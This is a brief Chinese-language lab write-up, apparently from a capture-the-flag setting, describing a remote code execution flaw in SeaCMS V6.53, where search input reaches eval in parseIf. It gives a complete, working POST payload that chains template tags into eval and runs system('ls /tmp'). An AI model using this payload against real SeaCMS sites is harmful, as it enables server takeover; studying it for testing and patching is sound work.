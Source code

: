 # 海洋 cms V6.53版本代码执行by [Frivolous-scholar](https://github.com/Frivolous-scholar) 

## 概述

echoSearchPage 函数中的 content 变量传给了 parself 函数，跟踪代码，找到 ./include/main.class.php，可以看到 parseIf 函数会将content内容 eval 执行，造成命令执行。

## 复现

1、首先打开靶场。

![1](./1.png)

2、进行搜索并抓包。

![2](./2.png)

3、利用 POC 来拿 Flag,POC 如下。

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("ls /tmp");
```

![3](./3.png)
